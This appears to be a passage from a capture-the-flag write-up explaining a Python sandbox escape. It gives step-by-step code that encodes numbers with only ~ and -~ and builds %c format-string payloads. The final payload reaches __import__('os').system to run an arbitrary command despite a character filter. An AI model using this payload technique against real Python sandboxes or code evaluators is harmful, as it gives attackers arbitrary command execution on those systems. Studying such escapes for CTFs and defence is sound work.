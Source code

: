 ### Step 1: str_to_fmt_payload

```py
def str_to_fmt_payload(s: str) -> str:
    """
    Convert a string into a format string payload like:
    '%c%c' % (<encoded ord(c1)>, <encoded ord(c2)>)
    """
    fmt = "%s" % ("%c" * len(s))  # e.g. "%c%c%c"
    encoded_numbers = ", ".join(encode_number(ord(ch)) for ch in s)
    return f"'{fmt}'%({encoded_numbers})"
```

{{< notice tip >}}
Tip: %s means insert the string representation of the object here.
{{< /notice >}}

### Step 2: encode_number

```py
def encode_number(n: int) -> str:
    """
    Encode an integer n using only ~ and -~ starting from 0.
    """
    if n == 0:
        return "X"  # special case
    parts = []
    if n > 0:
        # n times increment: -~0, -~-~0, ...
        expr = "X"
        for _ in range(n):
            expr = f"-~{expr}"
        return expr
    else:
        # negative numbers using ~
        expr = "X"
        for _ in range(-n):
            expr = f"~{expr}"
        return expr
```

### Step 3: payload creation

```py
X_assignment = "(X := ('A' > 'B'))"
get_builtins = f"c(c(c(c, {str_to_fmt_payload('__self__')}), {str_to_fmt_payload('__import__')})({str_to_fmt_payload('os')}), {str_to_fmt_payload('system')})"
command = str_to_fmt_payload(cmd)

payload = f"{X_assignment}, {get_builtins}({command})"
```

{{< notice tip >}}
Tip: the walrus operator (:=) along with the parantheses are necessary for correct statement prioritization, without them exec will fail.
{{< /notice >}}
